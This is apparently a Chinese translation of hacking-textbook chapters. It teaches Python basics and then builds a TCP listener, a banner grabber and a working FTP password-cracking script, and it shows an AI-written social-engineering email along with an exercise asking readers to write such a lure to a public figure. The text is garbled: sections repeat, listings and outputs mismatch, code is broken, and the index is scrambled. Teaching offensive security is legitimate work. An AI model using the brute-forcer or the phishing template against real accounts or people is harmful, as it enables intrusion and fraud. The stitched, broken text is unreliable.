就像你在第 8 章编写 bash 脚本时的那样，执行你的脚本，在脚本名称前加上点和正斜杠。出于安全考虑，你的目录不在 `$PATH` 变量中，因此我们需要在脚本名前加上 `./`，告诉系统在当前目录查找文件名并执行它。

要运行这个特定的脚本，请输入：

```bash
kali$ ./hackers-arise_greetings
```


Greetings to OccupyTheWeb from Hackers-Arise. The Best Place to Learn Hacking!

在 Python 中，每个变量都被视为一个类。类是创建对象的模板。更多信息请参阅第 189 页的“面向对象编程 (OOP)”。在接下来的脚本中，我尝试演示了几类变量。变量包含的内容不仅限于字符串。列表 17-2 显示了包含不同数据类型的变量。

```python
# /usr/bin/python3

HackersAriseStringVariable = "Hackers-Arise Is the Best Place to Learn Hacking"

HackersAriseIntegerVariable = 12

HackersAriseFloatingPointVariable = 3.1415

HackersAriseList = [1, 2, 3, 4, 5, 6]

HackersAriseDictionary = {'name': 'OccupyTheWeb', 'value': 27}

print(HackersAriseStringVariable)

print(HackersAriseIntegerVariable)

print(HackersAriseFloatingPointVariable)
```

列表 17-2: 与变量相关的数据结构

这创建了五个包含不同数据类型的变量：字符串（被视为文本）；整数（不带小数的数字类型，可用于数值运算）；浮点数（带小数的数字类型，也可用于数值运算）；列表（存储在一起的值列表）；以及字典（一个无序的数据集，每个值都与一个键配对，这意味着字典中的每个值都有一个唯一的标识键）。当你想要通过键名引用或更改值时，这非常有用。例如，假设你有一个配置如下的 `fruit_color` 字典：

```python
fruit_color = {'apple': 'red', 'grape': 'green', 'orange': 'orange'}
```

如果你在脚本稍后的部分想要获取葡萄的 `fruit_color`，只需通过其键调用即可：

```python
print(fruit_color['grape'])
```

你也可以更改特定键的值；例如，这里更改了苹果的颜色：

```python
fruit_color['apple'] = 'green'
```

我们将在本章稍后部分详细讨论列表和字典。在任何文本编辑器中创建此脚本 `secondscript.py`，然后赋予自己执行权限，如下：

```bash
kali$ chmod 755 secondscript.py
```

当我们运行此脚本时，它将输出内容：

```bash
kali$ ./secondscript.py
HackersArise Is the Best Place to Learn Hacking
12
3.1415
```

## 注释

与任何其他编程语言一样，Python 具有添加注释的功能。程序员经常使用注释来解释代码。Python 使用 `#` 符号标记单行注释的开始。如果你想写多行注释，可以使用三引号（`"""`）作为注释的开始和结束。在下面的脚本中，我为 `hackers-arise_greetings.py` 添加了短的多行注释。

```python
#!/bin/python3

"""
这是带有注释第一个 Python 脚本。注释用于帮助同事理解代码。在这种情况下，这个简单的脚本为用户创建一个问候。
"""

name="OccupyTheWeb"

print("Greetings to " + name + " from Hackers-Arise. The Best Place to Learn Hacking!")
```

当我们再次执行脚本时，与上次相比没有变化，如下所示：

```bash
kali$ ./hackers-arise_greetings.py
Greetings to OccupyTheWeb from Hackers-Arise. The Best Place to Learn Hacking!
```

它的运行方式与之前完全一样，但当我们以后回到代码时，我们就有关于该脚本的信息。

## 函数

Python 中的函数是执行特定操作的代码段。例如你之前使用的 `print()` 语句就是一个函数，它可以显示你传递给它的任何值。Python 有许多内置函数，你可以直接导入并使用。大多数函数在 Kali Linux 的默认 Python 安装中都是可用的，尽管许多可以通过下载的库可用。让我们看看你可以使用的数千个函数中的几个：

- `exit()`: 退出程序。
- `float()`: 将其参数作为浮点数返回。例如，`float(1)` 将返回 `1.0`。
- `help()`: 显示由其参数指定的对象的帮助信息。
- `int()`: 返回其参数的整数部分（截断小数）。
- `len()`: 返回列表或字典中元素的个数。
- `max()`: 从其参数（一个列表）中返回最大值。
- `open()`: 按照其参数指定的模式打开文件。
- `range()`: 返回位于其参数指定的两个值之间的整数列表。
- `sorted()`: 接收一个列表作为参数并返回按顺序排列的列表。
- `type()`: 返回其参数的类型（例如，`int`、`float`、`method`、`function`）。

你也可以创建自己的函数来执行自定义任务。由于语言内置了许多函数，在费力构建它之前，检查该函数是否存在总是值得的。有很多方法可以进行这种检查。一种方法是查看 `https://docs.python.org` 上的官方 Python 文。选择你正在使用的版本，然后选择“库引用”（Library Reference）。

### 列表

许多编程语言使用数组作为存储多个独立对象的方法。数组是一个值列表，可以通过引用在列表中的位置（称为索引，`index`），以各种方式对数组中的特定值进行检索、替换或处理。需要注意的是，Python 与许多其他编程环境一样，索引从 0 开始计数，因此列表中的第一个元素是索引 0，第二个是索引 1，第三个是索引 2，以此此类推。例如，如果我们想访问数组中的第三个值，可以通过 `array[2]` 实现。在 Python 中，数组有几种实现方式，但最常见的被称为列表（`list`）。

Python 中的列表是可迭代的，这意味着可以遍历整个列表中的所有元素（参见第 195 页的“循环”）。当我们使用列表查找特定值、逐个打印值或将值从一个列表移动到另一个列表时，这通常非常有用。

所以，假设我们需要显示来自列表 17-2 的 `HackerAriseList` 列表的第四个元素。我们可以通过调用列表名 `HackerAriseList` 并在方括号中加上我们要访问的元素索引来访问并打印该元素。

为了测试这一点，请在第二个 `pythonscript.py` 的末尾添加以下行，以打印 `HackerAriseList` 中索引为 3 的元素：

```
--snip--
print(HackersAriseStringVariable)
print(HackersAriseIntegerVariable)
print(HackersAriseFloatingPointVariable)
print(HackersAriseList[3])
```

当我们再次运行此脚本时，可以看到新的 `print` 语句在输出旁边打印了 4：

```
kali> ./pythonscript.py
Hacker-Arise Is the Best Place to Learn Hacking
12
3.1415
4
```

### 模块

模块只是保存在单独文件中的代码段，这样你就可以在程序中根据需要多次使用，而无需再次输入所有内容。如果你想使用模块或模块中的任何代码，则需要导入（`import`）它。如之前讨论的，使用标准模块和第三方模块是使 Python 对黑客变得如此强大的关键特性之一。如果我们想使用之前安装的 `nmap` 模块，我们会在脚本中添加以下行：

```
import nmap
```


在本章的稍后部分中，我们将使用两个非常有用的模块：`socket` 和 `ftplib`。

# 对象面向编程 (OOP)

在深入研究 Python 之前，花几分钟讨论一下对象面向编程（OOP）的概念可能是值得的。Python 与当今许多编程语言（例如 C++、Java 和 Ruby 等）一样遵循 OOP 模型。

图 17-1 显示了 OOP 背后的基本概念：语言的主要工具是对象，它具有以属性（attributes）和状态（states）形式存在的属性，以及对对象执行的操作的方法（methods）。


图 17-1：对象面向编程插图

对象是类的成员，类本质上是一个用于创建具有共享初始变量、属性和方法的对象的模板。例如，我们说有一个名为 `cars` 的类；我们的汽车（一辆宝马）将是 `cars` 类的成员。该类还包括其他对象/汽车，例如梅赛德斯和大众，如图 17-2 所示。


图 17-2：OOP 类和对象

类也可能有子类。我们的汽车类有一个 `BMW` 子类，该子类的一个对象可能是 320i 模型。
每个对象将具有属性（品牌、型号、年份和颜色）和方法（启动、行驶和停车），如图 17-3 所示。


图 17-3：OOP 属性和方法

在 OOP 语言中，对象继承其类的特性，因此宝马 320i 将从 `car` 类继承 `start`、`drive` 和 `park` 方法。
这些 OOP 概念对于理解 Python 和其他 OOP 语言如何工作至关重要，你将在后续章节的脚本中看到。

# Python 中的网络通信

在继续学习 Python 概念之前，让我们利用目前所学的知识编写几个与网络相关的黑客脚本。

# 构建 TCP 客户端

我们将使用 `socket` 模块在 Python 中创建网络连接。我已经提到过 Python 自带了一个用于许多任务的模块库。在这种情况下，我们需要 `socket` 模块来创建 TCP 连接。让我们来看一下。

为此，请在第二个 `pythonscript.py` 的末尾添加以下行，以打印 `HackerAriseList` 中索引为 3 的元素：

```
--snip--

print(HackerAriseStringVariable)

print(HackerAriseIntegerVariable)

print(HackerAriseFloatingPointVariable)

print(HackerAriseList[3])
```

当我们再次运行此脚本时，可以看到新的 `print` 语句在输出旁边打印了 4：

```
kali> ./pythonscript.py

Hacker-Arise Is the Best Place to Learn Hacking

12

3.1415

4
```

# 模块

模块只是保存在单独文件中的代码段，这样你就可以在程序中根据需要多次使用，而无需再次输入所有内容。如果你想使用模块或模块中的任何代码，则需要导入（import）它。如之前讨论的，使用标准模块和第三方模块是使 Python 对黑客变得如此强大的关键特性之一。如果我们想使用之前安装的 `nmap` 模块，我们会在脚本中添加以下行：

```
import nmap
```

在本章的稍后部分中，我们将使用两个非常有用的模块：`socket` 和 `ftplib`。

我们声明使用 Python 解释器运行脚本，并像以前一样导入 `socket` 模块，这样我们就可以使用它的功能。我们定义了 socket 变量来存储 TCP/IP 地址、要监听的端口以及我们要从连接的系统 ① 获取的数据缓冲区大小。

我们定义了 socket ➁ 并使用我们创建的变量将其绑定到 IP 地址和端口 ③。我们使用 `socket` 库中的 `listen()` 方法告诉 socket 开始监听 ➮。

我们使用 `socket` 库的 `accept` 方法获取连接系统的 IP 地址和端口，并将这些信息打印到屏幕上以便查看。注意这个 `while` 循环：我们将在本章稍后讨论它，但现在只需知道它用于无限地运行其后的缩进代码，这意味着 Python 会持续检查数据，直到程序停止。

最后，我们将来自连接系统的信息放入缓冲区，打印它，然后关闭连接。

现在打开浏览器并访问 http://localhost:6996 以进入我们在脚本中指定的 6996 端口。运行 `tcp_server.py` 脚本，你本应该能够连接并收集有关此类系统的信息，如下：

```
kali> /tcp_server.py

Connection Address: '192.168.181.190', 45368

Received data: Get /HTTP/1.1

Host:192.168.181.190:6996

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko
```

> 这些是黑客在决定利用漏洞时收集的关键信息。漏洞利用（或攻击）针对特定的操作系统、应用程序，甚至是所使用的语言，因此黑客在继续之前需要尽可能多地了解目标的信息。这种在攻击之前收集信息的行为通常被称为*侦察*（reconnaissance）。你刚刚开发了一个可以收集潜在目标关键侦察信息的工具，它与非常流行的黑客工具 poof! 非常相似。

## 字典、控制语句和循环

让我们继续扩展对 Python 的理解，然后利用你目前所学的所有内容为 FTP 服务器构建密码破解器。

## 字典

字典以无序对的形式存储信息，每对包含一个键（key）和一个关联的值（value）。我们可以使用字典来存储项目列表，并为每个项目提供一个我们可以使用的标签，以便能够单独引用该项目。我们可能会使用字典来存储例如，用户 ID 及其关联名称，或者存储与特定主机相关的已知漏洞。Python 中的字典作用类似于其他语言中的关联数组。

和列表一样，字典是可迭代的，这意味着我们使用 `for` 语句等控制结构来遍历整个字典，将字典的每个元素分配给变量，直到到达字典末尾。

除其他外，你可能会在构建密码破解器中使用这种结构，它会遍历字典中存储的每个密码，直到破解成功或破解器到达字典末尾。创建字典的语法如下：

```
dict = {key1:value1, key2:value2, key3:value3...}
```


注意，对于字典，你可以使用花括号并用逗号分隔项目。你可以包含所需的任意数量的键值对。

## 控制语句

控制语句允许你的代码根据某些条件做出决策。Python 中有多种方法可以控制脚本的流。让我们来看看 Python 中的一些这些结构。

## if 语句

Python 中的 `if` 结构与其他许多包含的编程语言一样，用于检查条件是否为真，以便为每个场景运行不同的代码 set。其语法如下：

```
if conditional expression:

    run this code if the expression is true
```

`if` 语句包含一个条件，例如类似于 `if variable < 10` 的内容。如果满足条件，表达式求为真（true），然后执行随后的代码，即控制块（control block）。如果语句求为假（false），则控制块中的语句将被跳过而不执行。

在 Python 中，引入控制块的行以冒号结尾，且控制块必须缩进。这种缩进向解释器标识控制块。下一条不在控制块之外且未缩进的语句（即它）不属于 `if` 语句的一部分，这也是 Python 知道当条件不满足时应该跳过到那里的原理。

## if ...else 结构

Python 中的 `if...else` 结构如下：

```
if conditional expression:

    run this code when the condition is met

else:

    run this code when the condition is not met
```

与之前一样，解释器首先检查 `if` 表达式中的条件。如果它求为真，解释器执行条件语句块中的语句。如果条件语句求为假，则改为执行 `else` 语句后的控制块。

例如，这里有一段检查用户 ID 值的代码：

```
if userid == 0:

    print("You are the root user")

else:

    print("You are NOT the root user")
```

如果它是 0（Linux 中的 root 用户用户 ID 始终为 0），那么我们就打印消息 `You are the root user`。否则，如果它是任何其他值，我们就打印消息 `You are NOT the root user`。

## 循环

循环是 Python 中另一种实用的结构。循环允许程序员根据值或条件重复执行代码块多次。两种循环是 `while` 和 `for`。

## while 循环

`while` 循环评估一个布尔值（一个只能为真或假的表达式），并只要表达式为真就继续执行。例如，我们可以创建一个打印 1 到 10 然后退出的代码，如下：

```
count = 1

while count <= 10:

    print(count)

    count += 1
```

## for 循环

`for` 循环每次循环时都会将列表、字典或其他迭代结构中的值分配给变量。例如，我们可以使用 `for` 循环尝试密码直到匹配，如下：

```
for password in passwords:

    attempt = connect(username, password)

    if attempt == "230":

        ...
```

## 改进我们的攻击脚本

有了更多 Python 循环结构和条件语句的基础，让我们回到脚本并添加一些功能。

我们将想要获取 banner 的端口列表，而不是只监听一个端口，然后使用 `for` 语句遍历列表。通过这种方式，我们可以搜索并获取多个端口的 banner 并显示在屏幕上。

首先，我们创建一个列表并在其中放入端口。打开 `HackeriseBannerGrab.py`，我们将到达。列表 17-5 显示了完整代码。注意，灰色的行保持不变；黑色行是你需要更改或添加的行。我们将尝试获取端口 21 (ftp)、22 (ssh)、25 (smtp) 和 3306 (mysql) 的 banner。

```
# /usr/bin/python3

import socket

Ports = [21, 22, 25, 3306]

for Port in Ports:

    s = socket.socket()

    print('This Is the Banner for the Port')

    print(Port)

    s.connect(("192.168.1.101", Port))

    answer = s.recv(1024)

    print(answer)

    s.close()
```

列表 17-5：改进 banner 采集器

我们创建一个名为 `Ports` 的列表并添加四个元素，每个元素代表一个端口。我们创建一个 `for` 语句遍历该列表四次，因为它有四个项目。记住当你使用一个

对于 `for` 循环，与循环相关的代码必须在语句下方缩进。

我们需要修改程序以反映每次迭代都使用列表中的一个变量。为此，我们创建一个名为 `Port` 的变量，并在每次迭代中为它分配列表中的值。然后，我们在连接中使用该变量。当解释器执行该语句时，它将尝试连接到 IP 地址上分配给变量的任何端口。

现在，如果你在一个列出的端口都已打开的系统上运行此脚本，你应该看到类似列表 17-6 的输出。

```
kali> ./HackersArisePortBannerGrab.py

This is the Banner for the Port

21

220 (vsFTPd 2.3.4)

This is the Banner for the Port

22

SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1

This is the Banner for the Port

25

220 metasploitable.localdomain Postfix (Ubuntu)

This is the Banner for the Port

3306

5.0.51a-3ubuntu5
```

列表 17-6：端口横幅获取器的输出

注意，脚本已发现端口 21 开启并运行着 vsFTPd 2.3.4；端口 22 开启并运行着 OpenSSH 4.7；端口 25 运行着 Postfix；端口 3306 运行着 MySQL 5.0.51a。

我们成功地用 Python 构建了一个多端口横幅获取工具，用于对目标系统进行侦察。该工具会告诉你端口上运行着的服务以及该服务的版本！这是黑客在进行攻击之前所需的关键信息。

# 异常与密码破解器

你编写任何代码都面临错误或异常的风险。在编程术语中，异常（exception）是指任何中断代码正常执行流的事件——通常是由错误的代码或输入引起的错误。为了处理可能的错误，我们使用异常处理，它简单来说用于处理特定问题、显示错误消息甚至为决策提供异常的代码。在 Python 中，我们使用 `try/except` 结构来处理这些错误或异常。

`try` 块执行某些代码，如果发生错误，`except` 语句将处理该错误。在某些情况下，我们可以将 `try/except` 结构用于决策判断，类似于 `if...else`。例如，我们可以在密码破解器中使用 `try/except` 来尝试密码，如果发生密码不匹配的错误，则通过 `except` 语句移动到下一个密码。让我们现在来试一下。

输入列表 17-7 中的代码并将其保存为 `ftpcracker.py`；我们稍后会详细介绍。该脚本会要求用户输入 FTP 服务器地址和他们想要破解的用户名。它读取一个包含可能密码列表的外部文本文件，并尝试每一个密码，以试图破解 FTP 账户。脚本会一直执行此操作，直到成功或用完所有密码。

```python
#! /usr/bin/python3

import ftplib

server = input("FTP Server: ")

user = input("username: ")

Passwordlist = input("Path to Password List > \ntry:

    with open(Passwordlist, 'r') as pw:

        for word in pw:

            word = word.strip('\r\n')

            try:

                ftp = ftplib.FTP(server)

                ftp.login(user, word)

                print('Success! The password is ' + word)

            except ftplib.error_perm as exc:

                print('still trying...', exc)

except Exception as exc:
```


`print('Wordlist error: ', exc)`

```
列表 17-7：FTP 密码破解器 Python 脚本
```

我们将使用 `ftplib` 模块中的工具处理 FTP 协议，因此首先导入它。接下来，我们创建一个变量 `server` 另一个另一个名为 `user` 的变量，用于存储用户输入的名称。你的脚本将提示用户输入 FTP 服务器的 IP 地址以及用户试图破解的账户用户名。

然后我们要求用户输入密码列表的路径。在 Kali Linux 中，你可以通过终端输入 `locate wordlist` 来找到许多密码列表。

随后我们开始 `try` 块代码，该代码将使用用户提供的密码列表尝试破解用户提供的用户名的密码。

注意，我们使用了一个新的 Python 函数 `strip()`。此函数会移除字符串开头和结尾的所有字符（在本例中，是移除 `word` 的字符）。这是必要的，因为遍历此列表中的行会在单词末尾留下换行符 `\n` 和 `\r`。`strip()` 会移除这些字符，只留下潜在密码的字符字符串。如果我们不移除换行符，将会得到一个假阴性结果（false negative）。

然后，我们使用第二个 `try` 块。在这里，我们使用 `ftplib` 模块首先通过提供的 IP 地址连接到服务器，然后使用列表中的该账户的下一个密码。

如果用户名和密码的组合导致错误，该块将退出并进入 `except` 子句，在那里它会打印“still trying”以及登录错误异常的文本。然后，它返回子句开头，从密码列表中获取下一个密码进行尝试。

如果连接成功，正确的密码将打印在屏幕上。最后一行会捕获任何可能导致错误的情况并将其显示。例如，如果用户输入了程序无法处理的内容，比如密码列表路径错误或缺少单词。

现在，让我们在一个列出的端口都已打开的系统上运行此脚本，你应该看到类似列表 17-6 的输出。

```
kali> ./HackersArisePortBannerGrab.py

This is the Banner for the Port

21

220 (vsFTPd 2.3.4)

This is the Banner for the Port

22

SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1

This is the Banner for the Port

25

220 metasploitable.localdomain Postfix (Ubuntu)

This is the Banner for the Port

3306

5.0.51a-3ubuntu5
```

列表 17-6：端口横幅获取器的输出

注意，脚本已发现端口 21 开启并运行着 vsFTPd 2.3.4；端口 22 开启并运行着 OpenSSH 4.7；端口 25 运行着 Postfix；端口 3306 运行着 MySQL 5.0.51a。

我们成功地用 Python 构建了一个多端口横幅获取工具，用于对目标系统进行侦察。该工具会告诉你端口上运行着的服务以及该服务的版本！这是黑客在进行攻击之前所需的关键信息。

未来 5 到 10 年。网络威胁的动态性、AI 的局限性以及对人类专业知识和伦理决策的需求，将确保网络安全仍然是一个需要专业人士与 AI 技术协同工作的领域。

# AI 领域的主要参与者

尽管该领域发展迅速，但首个大众市场商业级 AI —— ChatGPT 是 OpenAI 在 2022 年 11 月推出的。之后，许多公司都发布并开发了自己的 AI 模型：

- Microsoft 的 Copilot
- X（原 Twitter）的 Grok
- Google 的 Gemini
- Perplexity AI 的 Perplexity
- Anthropic 的 Claude 2
- Meta 的 Llama 2

# 在网络安全中使用 AI

如前所述，网络安全专业人士有多种方式在工作工作中利用 AI。例如，网络安全的一项关键任务被称为*威胁情报*（threat intelligence），即跟进网络安全最新威胁的实践。为了做到这一点，例如，我可以问我喜欢的 AI：“目前网络安全的最新威胁是什么？”它可能会回答：

- 勒索攻击：这仍然是一个主要威胁，网络犯罪分子加密数据并要求支付解密密钥费用。
- 云端漏洞：随着越来越多的组织依赖云服务，保护云环境变得至关重要。云漏洞在过去五年中增加了 150%。
- 移动设备漏洞：随着远程办公和 BYOD（自带设备办公）政策的增加，移动设备日益成为网络犯罪子的目标。
- AI 驱动的攻击：网络犯罪分子正利用 AI 和机器学习来开发更复杂的攻击并规避检测。
- 社会工程和网络钓鱼：这些仍然普遍，85% 的数据泄露涉及人类交互。
- IoT 设备漏洞：随着物联网（IoT）的普及，与这些通常安全性较差的设备相关的安全风险也随之增加。
- 供应链攻击：在软件和硬件到达消费者之前对其进行破坏是一个日益关注的问题。
- 内部威胁：无论是无意还是恶意的内部威胁持续构着重大风险。
- 高级持续性威胁 (APT)：这些针对特定目标的隐蔽、长期攻击正变得越来越常见。
- 与加密货币相关的攻击：随着加密货币的流行，针对这些数字资产的攻击正在上升。

通过这种方式，我可以领先于组织的潜在威胁。此外，我还可以问得更具体，询问我的 AI：“最新的勒索软件威胁是什么？”它可能会回答：

- **LockBit**：尽管最近受到执法部门的打击，这仍然是最活跃、危险的勒索软件小组之一。他们继续演变战术并针对广泛的组织。
- **RansomHub**：该小组于 2024 年出现，可能是 Alph/BlackCat 小组的重生。他们迅速成为最活跃的勒索软件威胁之一。
- **Akira**：该勒索软件小组脱颖而出，成为 2024 年顶级威胁之一。
- **Play**：发现了该勒索软件的一个较新的 Linux 版本，扩大了其潜在目标群体。
- **Cactus**：该小组负责过高知名度的攻击，包括对一家瑞典超市连锁的攻击。
- **Medusa**：他们活跃于针对公共机构在内的多个部门。
- **8Base**：该小组声称对多个组织发动了攻击，包括联合国开发计划。
- **Daixin Team**：他们参与了对医疗保健提供者的攻击，声称盗取了大量患者数据。

# 使用 AI 进行社会工程攻击

超过 80% 的成功网络攻击都包含社会工程学元素。社会工程学依赖于操纵人类的脆弱性，而非技术漏洞。钓鱼攻击（phiking）、电子邮件伪装和预设理由（pretexting）等策略变得日益复杂和普遍。例如，勒索攻击（目前最成功的财务攻击）通常从目标组织内部人员打开文件或点击链接开始。这个简单的动作为攻击者提供了进入组织的漏洞，允许他们加密组织中的所有数据，从而导致组织瘫痪。最终，公司必须支付赎金以取回数据。

在 AI 进入网络安全的初始阶段，攻击者可能会专注于使用 AI 编写电子邮件信息，诱导其目标点击链接或打开文档。写电子邮件可能是目前黑客利用人工智能的最佳用途之一，因为 AI 可以收集关键信息，并为目标接收者起草一封非常出色且有效的邮件。

让我们喜欢的 AI 给 OccupyTheWeb 写一封邮件，请求翻译视频配套内容的权利（这是一次真实的社会工程攻击，我曾是其目标）。关键在于 AI 可以写出具有高度针对性并为个人收件者定制的邮件。以下是它的草稿：

> 主题：关于购买《黑客的 Linux 基础》权利的报价
>
> OccupyTheWeb 团队：
>
> 我写这封信是为了表达对获取你们受欢迎的《黑客的 Linux 基础》在线书籍完整权利所有权的强烈兴趣。作为一名丰富的网络安全专业人士和教育工作者，我一直关注你们的工作，并对这门专为伦理黑客定制的 Linux 基础课程的内容质量和深度留下了极其深刻的印象。实用的虚拟机实验室、全面的视频课程和真实案例使其成为从攻击性安全角度掌握 Linux 的最佳资源之一。我相信，在我的所有下，我可以投资扩展和更新这门课程，以确保它保持该主题领域行业领先的计划。我和我的团队在在线网络安全培训的开发和营销方面拥有丰富经验，我们的资源可以将这门课程翻译成多种语言，极大增加其在全球的影响力。我愿意支付具有竞争力的一次性费用来购买永久权利，或者如果你们有意向，也可以探索收入分成模式。当然，我也愿意讨论你们可能提出的任何条款或条件。《黑客的 Linux 基础》课程是一个很棒的产品，值得更多的曝光和增长，我觉得凭借我的资源和行业专业知识可以提供这一点。请告诉我你们是否有兴趣进一步讨论出售或潜在的合作伙伴关系。感谢考虑。期待您的回复。
>
> 诚挚地，
> [姓名]

如你所见，这是一封非常专业且具有说服力的邮件，与我们都收过的典型的拼写错误、语法缺失的“尼利亚王子”邮件形成对比。这封信息不仅写得很好，还结合了从开放网络获取的关于目标的信息。

AI 接着提醒我们更改权限：

```
chmod +x /path/to/backup_script.sh

then edit our cron table

crontab -e

30 23 * * 6 /path/to/backup_script.sh
```


现在，我们已经能够自动备份系统了。AI 不是不奇妙吗？

## 总结

我们的数字世界随着新的、更好的应用程序和设备不断演进。人工智能是这条漫长道路上的另一项进展。正如那些拒绝使用电子邮件或建立网站的企业已经消失在历史的尘埃中，你必须适应并拥抱这项新技术。它能让你在自己的工作中表现得出色！

## 练习题

- 1. 在主流 AI 平台上注册一个免费账号。
- 2. 为一位主要的公众人物写一封社会工程信函，诱使他们与你互动或打开文档。
- 3. 使用 AI 平台编写第 8 章中的 bash 端口扫描脚本。它有效吗？如果没有效果，原因是什么？
- 4. 本章的部分内容是由 AI 编写的。你能看出是哪些部分吗？请将你的猜测发送邮件到 `occupytheweb@protonmail.com`，我会告诉你是否正确。

# 索引

引用图表或表格的页码为斜体。

`airdump-ng` 命令, 156–157

Akira, 204

Aloha POS (销售点) 系统, 88

# 符号

`ampersand (&)`, 68

匿名性, 137–149

`= (赋值符号)`, 79

电子邮件加密, 148–149

`* (星号)`, 173

代理服务器, 141–147

`: (冒号)`, 78–89

添加进程, 145

`$ (内容符号)`, 78–79, 87, 91

动态链, 145

`- (破折号)`, 19–52, 62, 173, 175

随机链, 146

`-- (双破折号)`, 7

通过流量, 141–142

`.. (双点)`, 66

安全忧虑, 147

`>> (重定向符号)`, 13

在配置文件中设置进程,

`# (井号)`, 84–85, 186

142–144

`/ 符号`, 85–86, 185

Tor 系统, 139–141

`| (管道)`, 12. 另见管道 (piping)

Ahmia 搜索引擎, 141, 141

`> (重定向符号)`, 13, 35, 89

暗网, 140–141

`; (分号)`, 131, 133

加密流量数据, 139–140

`# (shebang)`, 84, 86

安装 Tor 浏览器, 140, 140

# A

安全忧虑, 147

`accept` 方法, 192

追踪方法, 138

访问控制列表, 127

VPN, 147–148

接入点 (access points). 另见 APs

Anthropic, 203

`admin` 命令. 另见 root anchor

Apache, 123–127

Advanced Packaging Tool (高级软件包工具). 另见 `apt`

使用其创建 HTTP 服务器, 124–127

AI (人工智能), 201–207

增强与创建

添加 HTML 块, 126

编辑 `index.html`, 125–126

与……协作, 202–203

成品, 126–127

其局限性, 202

默认网页, 125, 125

其中的主要参与者, 203

下载并安装, 124

社会工程攻击, 205–206

LAMP, 125

使用网络安全, 203–204

删除, 118

编写 bash 脚本, 206–207

查看, 116

`aircrack-ng` 套件和 `aircrack-ng` 命令, 7–10, 30, 155–157

APs (接入点), 152–158

`airplay-ng` 命令, 157

连接, 154–155

`airmon-ng` 命令, 156

破解, 155–157

`apt` (高级软件包工具), 40–43
添加软件, 40–41
移除软件, 41–42
查找软件包, 42
更新软件包, 42
`apt` 命令, 40–42

运行, 85–86
设置权限, 85
使用 AI 脚本化, 206–207

基础服务集标识符 (BSSID), 152–158

Berkeley Name Domain (BIND), 34
二进制文件 (binaries), 2

`bg` 命令, 68, 92

添加到 `PATH` 变量, 79

目录, 4

查找, 9–10

位置, 2

权限的二进制表示, 53, 53

基于 GUI 的安装器, 45–46
安装软件, 40–41
移除软件, 40
查找软件包, 42
升级软件包, 42

逐位或物理拷贝, 100–101
黑客, 87–88
块设备, 107–108
列出, 107–108
确认可达性, 161–162
可发现模式, 158
扫描设备, 158–162
数组, 188, 194
赋值符号 (*), 79
星号 (*), 173

可发现模式, 158
内核模块, 168
配对, 158
扫描设备, 158–162

APTs (高级持续性威胁), 204
BIND (Berkeley Name Domain), 34
定义, 2
Linux 用于, 110

# B

bad locks, 110
banner grabbing, 191–192
changing default shell to, 72–73, 82–83
common built-in commands, 92
open port scanning, 87–91
flexible version, 90–91
target of, 88
simple message, 84–88
adding functionality, 86–87
commenting, 84–85, 186–187
config tool, 159
dump tool, 159
it tool, 159–162
lping command, 161–162
pt tool, 160–161
`/boot` directory, 4
Bourne-again shell
broadcast addresses, changing, 31–32
viewing, 28
BSSID (basic service identifier), 152, 154–158
`bunzip2` command, 99
Butler, Max (Max Vision), 88
`bzip2` command, 98–99

# C

Cactus, 204
CardersMarket, 88
case sensitivity, 2, 62
`cat` command, checking kernel version, 165
creating files, 12–14
filtering text, 21–22
viewing files, 18
`cd` command, 6, 92
CERN, 149
CERT (Computer Emergency Response Team), 88
channels, 152
character devices, 107
ChatGPT, 203
check command, 156
`chgrp` command, 51
`chmod` command, 52, 54–58, 85, 87, 89, 185, 191–192
decimal notation, 54
group permissions, 58
temporary permissions, 57
UGO syntax, 54–55
own command, 50
classes, 189–190
Claude, 2, 203
cloud vulnerabilities, 203
commenting, 84–85, 186–187
compress command, 98–99
compression, 95–99
`bzip2` command, 98–99
compress command, 98–99
defined, 96
`gzip` command, 98–99
loss versus lossless, 96
tarring files together, 96–98
`connect()` function, 191
content symbol ($), 78–79, 91
continue command, 92
control block, 194
control statements, 194–195
if...else structure, 194–195
copilot, 203
`cp` command, 14
CPUs: identifying, xviii
process command, 62–64
Raspberry Pi, 128
cron daemon (crond), 68–69,
crontab file, 172, 174
scheduling tasks, 172–174
scheduling jobs to run, 172–175
MySQL, 176

AI 接着提醒我们更改权限：

```
```


`chmod +x /path/to/backup_script.sh`

then edit our cron table

`crontab -e`

`30 23 * * 6 /path/to/backup_script.sh`


现在，我们已经能够自动备份系统了。AI 不是不奇妙吗？

## 总结

我们的数字世界随着新的、更好的应用程序和设备不断演进。

主要参与者, 203
社会工程攻击, 205–206
使用网络安全, 203–204
编写 bash 脚本, 206–207
查看, 116

- de-facto, 152–158
- BlueZ, 158–162
- basic service set identifier (BSSID),

- APTs (高级持续性威胁), 204
- 逐位或物理拷贝, 100–101
- 黑客, 87–88
- 块设备, 107–108
- 列出, 107–108
- 确认可达性, 161–162
- 可发现模式, 158
- 扫描设备, 158–162
- 数组, 188, 194
赋值符号 (`*`), 79
星号 (`*`), 173

- APTs (高级持续性威胁), 204
- BIND (Berkeley Name Domain), 34
定义, 2
Linux 用于, 110

- 数组, 188, 194
赋值符号 (`*`), 79
星号 (`*`), 173

文件系统, 3–4
- `/bin` 目录, 4
- `/dev` 目录, 104–107
- `/etc` 目录, 4
- `/home` 目录, 2, 4
- `/lib` 目录, 4
- `/media` 目录, 4, 108–109
- `/mnt` 目录, 4, 108–109

灰黑客，87
- `grep` 命令
  - 过滤
    - 针对关键词，11–12, 29–30
    - 按进程名, 63
    - 针对变量, 75
  - 端口扫描器, 89, 91
  - 管道至, 21, 29, 63, 75, 89, 91, 177

- 监控
  - 检查错误, 110–111
  - 查看关于信息
    - 挂载磁盘, 109–110
- 导航
  - 切换目录, 6
  - 识别当前目录, 5
  - 列出目录内容, 6–7

Grok, 203
- 组
  - 检查权限, 51–52
  - 定义, 50
  - 授予 root 用户组权限, 58
  - 移交所有权给，51

- `/root` 目录, 3–4, 103
- 环境变量, 75
- 进程
  - 按名称, 63
  - 按资源使用, 64
  - 文本, 21–25
- `find` 命令, 10–11, 58
- `float()` 函数, 187
- `for` 循环, 195–196
- `fsck` 命令, 110–111
  - `-f` 选项

GRUB (大统一引导加载程序), xxx-xxvi, xxvi
GUIs (图形用户界面)
  - 调度启动运行任务, 178–179
  - 与 shell 的对比, 82
  - 软件安装程序, 45–46
- `gzip` 命令, 99
- `gzip` 命令, 98–99
- `shred` 命令, 119
- `tar` 命令, 97
- Python 中的函数, 187–188

# H

